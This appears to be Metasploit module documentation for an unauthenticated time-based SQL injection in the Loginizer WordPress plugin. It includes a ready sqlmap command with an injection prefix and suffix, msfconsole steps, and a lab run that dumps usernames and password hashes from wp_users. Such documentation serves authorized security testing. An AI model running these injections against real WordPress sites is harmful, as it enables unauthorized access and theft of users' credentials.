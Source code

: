 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Exploitation requires Wordpress after [a87271af60113d46ab3866b1e525a1817bce742d](https://github.com/WordPress/WordPress/commit/a87271af60113d46ab3866b1e525a1817bce742d#diff-05003928101dd60650a6864173792d6fbaaccbd26820d99dbcfff47c5f61322e)

* 5.4 or newer
* 5.5 or newer

Attempts to exploit non-vulnerable versions will likely cause loginizer's blacklist to ban the metasploit IP.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

This module slightly replicates sqlmap running as:

```
python3 sqlmap.py -u http://local.target/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db
```

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version of Loginizer detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
